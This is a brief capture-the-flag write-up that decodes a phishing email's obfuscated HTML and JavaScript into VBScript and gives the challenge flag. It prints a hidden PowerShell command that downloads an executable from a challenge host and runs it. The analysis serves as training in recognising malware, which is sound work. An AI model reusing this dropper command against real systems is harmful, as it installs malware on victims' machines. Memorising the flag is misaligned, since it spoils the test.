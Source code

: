 # ANALYSIS



Step 1 : Urgent Faction Recruitment Opportunity - Join Forces Against KORP™ Tyranny.eml : last par od the eml is base64 decoded

```
<html>
<head>
<title></title>
<body>
<script language="JavaScript" type="text/javascript">
document.write(unescape('%3c%68%74%6d%6c%3e%0.......
```

We find an HTML file with javascript, ....and it uses the unescape function to decode a string that has been encoded in hexadecimal


Step 2 : the HEXA code is decoded from HEX....
There is some fake vbscript and the flag in it 

```
	Set Process = Service.Get("Win32_Process")
	Error = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('https://standunited.htb/online/forms/form1.exe','%appdata%\form1.exe');Start-Process '%appdata%\form1.exe';$flag='HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}", null, objConfig, intProcessID)
	window.close()
```




# FLAG

HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}